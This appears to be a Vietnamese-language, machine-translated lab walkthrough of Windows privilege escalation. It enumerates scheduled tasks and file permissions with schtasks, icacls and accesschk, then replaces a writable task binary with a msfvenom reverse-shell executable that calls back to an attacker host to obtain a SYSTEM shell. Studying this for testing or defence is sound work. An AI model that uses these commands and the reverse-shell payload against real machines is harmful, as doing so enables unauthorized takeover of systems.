 Hunting for Scheduled Tasks

Trước khi đi sâu vào việc liệt kê các tác vụ đã lên lịch, chúng ta cần hiểu khả năng hiển thị của mình với tư cách là một người dùng chuẩn.
Thật không may cho chúng tôi với tư cách là kẻ tấn công, Microsoft đã thực hiện một điều khá thông minh và chỉ cho phép người dùng tiêu chuẩn xem các tác vụ đã lên lịch thuộc về họ. Điều này có nghĩa là bất kỳ tác vụ nào chúng tôi quan tâm, chẳng hạn như những tác vụ do quản trị viên tạo, chúng tôi sẽ không thấy khi cố gắng truy vấn chúng.
Ví dụ: nếu chúng ta sử dụng lệnh sau với quyền quản trị, chúng ta có thể truy vấn tác vụ đã lên lịch để tìm thông tin về cách thức hoạt động của nó:

```
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
```

Điều này cung cấp cho chúng tôi rất nhiều thông tin tốt về nhiệm vụ. Để bắt đầu, tên tác vụ là “Sao lưu”. Ngoài ra, chúng ta có thể thấy rằng tác vụ chạy năm phút một lần và thực thi dưới dạng HỆ THỐNG.
Lưu ý rằng nhiệm vụ này được đặt lên hàng đầu vì hai lý do. Đó là tùy chỉnh và do đó “mới” hơn những cái khác. Ngoài ra, các tác vụ đã lên lịch được liệt kê theo thứ tự theo thư mục, trong trường hợp này đã được đặt bằng thư mục gốc ( \ ). Điều này là phổ biến đối với các tác vụ tùy chỉnh vì không bắt buộc phải thêm thư mục thực và đây là mặc định nên nó thường được giữ nguyên.
Chúng ta có thể thực hiện tìm kiếm tương tự bằng PowerShell và lệnh sau:

```
Get-ScheduledTask
```

Tìm kiếm PowerShell chỉ cung cấp ba trường thông tin; tuy nhiên đầu ra sạch hơn và dễ dàng phát hiện các ngoại lệ. Từ đây, chúng ta có thể lấy tên của nhiệm vụ mà chúng ta quan tâm và nhận tất cả thông tin về nhiệm vụ cụ thể đó bằng lệnh schtasks .
Hãy thử lại lệnh Get-ScheduledTask hàng đầu , nhưng lần này với tư cách là người dùng chuẩn.

Như mong đợi và đã đề cập trước đó, tìm kiếm này KHÔNG hiển thị tác vụ tùy chỉnh được tạo bởi người dùng khác…

Bảng liệt kê cơ bản

Trong ví dụ này, chúng tôi vừa khai thác một máy chủ web trên máy chủ, dẫn đến Shell đảo ngược PowerShell là người dùng chuẩn john .

Bây giờ chúng ta đã có được chỗ đứng, chúng ta có thể bắt đầu với một số phép liệt kê thủ công để tìm kiếm các chiến thắng nhanh chóng và các tệp thú vị.
Tôi sẽ thực hiện việc này theo cách khác và chỉ ra cách tôi bắt đầu liệt kê trên máy chủ mục tiêu và cách các lệnh thủ công của tôi sẽ dẫn đến việc tìm thấy những gì có vẻ là một tác vụ đã lên lịch.
Đầu tiên, chúng ta cần kiểm tra các đặc quyền của mình.

```
whoami /priv
```

Chúng ta có thể thấy rằng chúng ta có các đặc quyền của người dùng tiêu chuẩn; tuy nhiên, chúng tôi có đặc quyền SeShutdown, đặc quyền này có thể hữu ích nếu có một dịch vụ dễ bị tấn công trên máy này.
Tiếp theo, chúng ta nên thu thập một số thông tin về hệ thống mục tiêu của mình bằng lệnh sau:

```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```

Ở đây chúng ta có thể thấy rằng hệ thống này là Windows 10 Pro – Build 17134 – Phiên bản 1803, với kiến trúc dựa trên x64. Chúng ta cũng có thể thấy rằng chỉ có một hotfix duy nhất được cài đặt, điều này cho thấy hệ thống này có thể dễ bị khai thác kernel.

Tiếp theo, chúng ta nên nhanh chóng kiểm tra mọi thông tin xác thực được lưu trữ trên hệ thống.

```
cmdkey /list
```

Không có thông tin xác thực được lưu trữ trên máy chủ này. Hãy kiểm tra xem người dùng của chúng tôi có phải là nhóm thú vị không.

```
net user john
```

Không có gì quan tâm được tìm thấy từ tìm kiếm của người dùng. Bây giờ hãy xem ai nằm trong nhóm quản trị viên cục bộ.

```
net localgroup administrators
```

Có vẻ như chỉ có tài khoản Quản trị viên tích hợp mới có quyền riêng tư của quản trị viên trên máy chủ này.
Tiếp tục, chúng ta nên tìm kiếm mọi thư mục / tệp không chuẩn trong C:\cũng như cả hai thư mục Tệp chương trình. Lệnh sau sẽ hiển thị tất cả các tệp và thư mục trong thư mục C:\, bao gồm cả các tệp và thư mục ẩn.

```
cmd.exe /c dir /a C:\
```

Từ đây, các thư mục thú vị nhất là Nhiệm vụ tùy chỉnh, Inetpub (máy chủ web) và cả thư mục Tệp chương trình.
Vì Nhiệm vụ tùy chỉnh là một thư mục không mặc định trong C:\, nên đó là nơi chúng tôi muốn bắt đầu liệt kê.
Nếu không tìm thấy gì trong các thư mục không mặc định được tìm thấy trong C:\, thì thư mục tiếp theo tôi sẽ liệt kê là máy chủ web để thử tìm các tệp thú vị và hy vọng có mật khẩu. Từ đó, tôi sẽ chuyển sang các thư mục Tệp chương trình và một lần nữa, tôi sẽ tìm kiếm các ứng dụng không mặc định trong cả hai thư mục đó.
Chúng ta có thể liệt kê các tệp và thư mục trong thư mục Tác vụ tùy chỉnh bằng lệnh sau:

```
cmd.exe /c dir /a "C:\Custom Tasks"
```

Có một thư mục con bên trong thư mục Nhiệm vụ tùy chỉnh: “Sao lưu”.
Bất cứ khi nào bạn tìm thấy một thư mục sao lưu trên máy chủ, các giác quan của Người Nhện của bạn sẽ bắt đầu ngứa ran!
Liệt kê thư mục Backup tiếp theo chúng ta thấy bên trong có 2 file backup_log.txt và tftp.exe

```
cmd.exe /c dir /a "C:\Custom Tasks\Backup"
```

Trước tiên, khi kiểm tra tệp nhật ký, chúng tôi được gợi ý rất nhiều về một tác vụ đã lên lịch đang chạy trên máy chủ; và dựa trên dấu thời gian, có vẻ như nó đang chạy TFTP để tạo bản sao lưu cứ sau 5 phút.

Bây giờ chúng tôi đã tìm thấy những gì có vẻ là một tác vụ được lên lịch tiềm năng đang chạy ra khỏi thư mục này, chúng tôi cần liệt kê thêm điều này.

Liệt kê quyền của thư mục

Trong ví dụ trên, chúng tôi đã thực hiện một số liệt kê thủ công, dẫn chúng tôi đến một thư mục sao lưu thú vị chứa tệp nhật ký gợi ý về một tác vụ đã lên lịch đang chạy.
Vì chúng tôi biết mình quan tâm đến thư mục nào nên chúng tôi có thể kiểm tra quyền của mình trên thư mục đó bằng lệnh icacls tích hợp . Ngoài ra, chúng ta cũng có thể sử dụng một công cụ có tên accesschk từ Bộ công cụ Sysinternals để liệt kê các quyền của thư mục và tệp.

Liệt kê quyền của thư mục – icacls

Đầu tiên, chúng ta sẽ xem cách có thể sử dụng lệnh icacls để kiểm tra quyền của ACL thư mục và tệp.
Các quyền mà chúng tôi đang tìm kiếm trên thư mục Sao lưu là một trong ba quyền sau:

- (F) Kiểm soát hoàn toàn
- (M) Sửa đổi
- (W) Viết
  Các quyền của người dùng / nhóm mà chúng tôi đang tìm kiếm như sau:
- Người dùng chúng tôi hiện đang đăng nhập với tên (%USERNAME%)
- Authenticated Users
- Everyone
- BUILTIN\Users
- NT AUTHORITY\INTERACTIVE
  Chúng tôi muốn kiểm tra quyền của cả thư mục Sao lưu cũng như quyền trên chính tệp thực thi. Bắt đầu với thư mục vì rất có thể các quyền của tệp sẽ được kế thừa từ các quyền của thư mục. Đây là hành vi mặc định; tuy nhiên, đôi khi chúng ta có thể thấy rằng thư mục không thể ghi được nhưng tập tin thì có.

```
icacls "C:\Custom Tasks\Backup"

icacls "C:\Custom Tasks\Backup\tftp.exe"
```

Liệt kê quyền của thư mục – Accesschk

Với accesschk trên nạn nhân, bây giờ chúng ta có thể sử dụng lệnh sau để liệt kê các quyền trên thư mục và tệp quan tâm. Bắt đầu với thư mục:

```
.\accesschk64.exe -wvud "C:\Custom Tasks\Backup" -accepteula
```

Ở đây, chúng ta có thể thấy rằng người dùng được xác thực có sẵn tất cả các quyền sửa đổi, tương tự như những gì chúng ta đã thấy khi sử dụng icacls.
Với khóa chuyển '-d', nó sẽ kiểm tra quyền của chính thư mục đó; và nếu không có khóa chuyển '-d', nó sẽ kiểm tra quyền của TẤT CẢ các tệp trong thư mục.
Tương tự như icacls một lần nữa, chúng ta có thể kiểm tra quyền của tệp mà chúng ta quan tâm bằng cách sử dụng lệnh sau:

```
.\accesschk64.exe -wvu "C:\Custom Tasks\Backup\tftp.exe" -accepteula
```

Khai thác tác vụ theo lịch trình để lấy SYSTEM Shell

Bây giờ chúng ta đã tìm thấy một tác vụ được lên lịch, chúng ta cần tạo phần mềm độc hại của riêng mình để thay thế tác vụ nhị phân hợp pháp.
Cách nhanh nhất để thực hiện việc này là sử dụng msfvenom và lệnh sau:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f exe -o tftp.exe
```

Khi mã khai thác đã sẵn sàng, điều tiếp theo chúng ta cần làm là chuyển nó cho nạn nhân và sau đó khởi động trình nghe netcat trên máy tấn công của chúng ta.

Tiếp theo chúng ta cần tạo một bản sao lưu của tệp nhị phân gốc, như sau:

```
mv "C:\Custom Tasks\Backup\tftp.exe" "C:\Custom Tasks\Backup\tftp.exe.bak"
```

Cuối cùng, chúng ta cần chuyển phiên bản độc hại của tftp.exe vào thư mục C:\Custom Tasks\Backup.

```
mv .\tftp.exe "C:\Custom Tasks\Backup"
```

Đi uống cà phê rồi quay lại; và khi chúng tôi kiểm tra trình nghe của mình, chúng tôi có shell HỆ THỐNG!

